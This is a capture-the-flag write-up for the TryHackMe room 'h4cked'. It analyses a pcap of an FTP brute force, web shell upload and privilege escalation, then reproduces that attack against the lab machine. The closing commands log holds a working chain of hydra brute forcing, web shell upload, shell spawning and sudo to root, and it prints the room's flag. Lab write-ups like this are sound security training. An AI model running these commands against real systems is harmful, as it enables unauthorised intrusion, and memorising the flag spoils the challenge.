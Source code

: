 # THM: h4cked

- Categories: Forensics, boot2root
- Difficulty: Easy

## Description

> Find out what happened by analysing a .pcap file and hack your way back into the machine

## Task1 -  Oh no! We've been hacked! 

The attacker is bruteforcing FTP, trying to guess user jenny's password.

![image-20210527230356870](_resources/image-20210527230356870.png)

The attacker successfully guessed jenny's password which is `password123`.

![image-20210527230736975](_resources/image-20210527230736975.png)

With FTP access, the attacker dropped a web shell backdoor called `shell.php` on /var/www/html

![image-20210527230857512](_resources/image-20210527230857512.png)

Web shell code: https://github.com/pentestmonkey/php-reverse-shell

![image-20210527231546019](_resources/image-20210527231546019.png)

The attacker triggered the web shell via browser.

![image-20210527232048359](_resources/image-20210527232048359.png)

The attacker gained foothold on the system

![image-20210527232211354](_resources/image-20210527232211354.png)

The attacker escalating to user jenny and then to root straightly via `sudo su`. The attacker also trying to implant a [rootkit](https://github.com/f0rb1dd3n/Reptile).

![image-20210527232435246](_resources/image-20210527232435246.png)

## Task 2 -  Hack your way back into the machine

Jenny password has ben changed to `987654321`.

![image-20210527234012972](_resources/image-20210527234012972.png)

Backdooring backdoor

![image-20210527234443736](_resources/image-20210527234443736.png)

Put the shell back.

![image-20210527234913535](_resources/image-20210527234913535.png)

Foothold

![image-20210527235120713](_resources/image-20210527235120713.png)

Privilege escalation

![image-20210527235533175](_resources/image-20210527235533175.png)

Flag

![image-20210527235643305](_resources/image-20210527235643305.png)

## Commands log

```
hydra -l jenny -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt ftp://10.10.134.91
ftp> mget shell.php
ftp> put shell.php hackback.php
ftp> site chmod 777 hackback.php
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@wir3:/$ su - jenny               
su - jenny
Password: 987654321
jenny@wir3:~$ sudo -l
sudo -l
[sudo] password for jenny: 987654321

Matching Defaults entries for jenny on wir3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jenny may run the following commands on wir3:
    (ALL : ALL) ALL
jenny@wir3:~$ sudo su -
sudo su -
root@wir3:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@wir3:~# ls -la
ls -la
total 20
drwx------  3 root root 4096 Feb  2 10:23 .
drwxr-xr-x 22 root root 4096 Feb  2 10:28 ..
lrwxrwxrwx  1 root root    9 Feb  2 10:20 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwxr-xr-x  7 root root 4096 Feb  2 10:23 Reptile
root@wir3:~# cd Reptile	
cd Reptile
root@wir3:~/Reptile# ls
ls
configs   Kconfig  Makefile  README.md  userland
flag.txt  kernel   output    scripts
root@wir3:~/Reptile# cat flag.txt
cat flag.txt
ebcefd66ca4b559d17b440b6e67fd0fd
```

